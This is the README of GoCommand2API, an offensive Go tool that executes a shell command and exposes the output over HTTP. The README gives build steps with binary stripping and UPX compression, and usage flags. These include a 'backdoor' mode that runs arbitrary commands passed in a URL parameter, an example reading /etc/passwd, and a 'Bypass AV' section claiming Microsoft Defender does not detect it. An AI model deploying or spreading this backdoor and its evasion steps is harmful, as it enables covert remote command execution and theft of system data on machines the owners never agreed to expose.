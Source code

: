 # GoCommand2API

灵感来源：https://github.com/gh0stkey/Command2API

> 本项目是用Go实现的Command2API，故起名为GoCommand2API

## 🧬 编译

```sh
git clone https://github.com/AbelChe/GoCommand2API.git
cd GoCommand2API

go build -ldflags="-s -w " -trimpath
```

go直接编出来的大小能有4兆多

可以再用upx压缩，大概不到2兆

```
upx GoCommand2API.exe
```



## 💨使用

`-h`参数获取帮助

```sh
./GoCommand2API -h
Usage of ./GoCommand2API:
  -cmd string
    	Command to exec (default "whoami")
  -encrypt string
    	Encrypt type, support: base64, hex, base64hex
  -ip string
    	IP (default "0.0.0.0")
  -param string
    	Set URL param name when using 'backdoor' type (default "id")
  -port string
    	Port (default "443")
  -time int
    	Set alive max time(seconds), program will exit after this seconds. Use 0 to make program always alive (default 20)
  -w string
    	Run Type, support: once, backdoor.
    	'once' type just execute '-cmd' value;
    	'backdoor' type need GET param to transmit command(Use '-param' to set URL param) (default "once")
```

```sh
# 默认执行whoami，打开443端口
./GoCommand2API

# 使用-port参数修改http端口
./GoCommand2API -port 8888

# 使用-cmd参数修改执行的命令
./GoCommand2API -cmd "cat /etc/passwd"

# 使用-encrypt参数选择加密方式
./GoCommand2API -encrypt base64

# 使用-time参数选择执行时长，此举是为了防止执行之后万一无法通过其他方式结束进程导致端口占用等情况，默认为20即启动20秒后自动结束进程，当设置为0的时候，程序将不会自行退出，只能通过kill pid或者手动^c结束进程
./GoCommand2API -time 20

# 参数-ip指定监听ip，默认0.0.0.0，一般无需修改
./GoCommand2API -ip 0.0.0.0

# 使用-w参数指定运行方式，分为backdoor和once两种，默认为once。backdoor模式下通过-param参数指定url参数传递命令，once模式下通过命令行参数-cmd传递命令
./GoCommand2API -w backdoor

# 使用-param参数指定backdoor模式下的URL参数名称
# 例如 curl http://127.0.0.1?date=whoami
./GoCommand2API -w backdoor -param date -port 80
```

![image-20220902143241250](Readme_resource/image-20220902143241250.png)

![image-20220902143128661](Readme_resource/image-20220902143128661.png)

![image-20220902143418500](Readme_resource/image-20220902143418500.png)

## Bypass AV

defender无感

![image-20220901172641034](Readme_resource/image-20220901172641034.png)

![image-20220901172556821](Readme_resource/image-20220901172556821.png)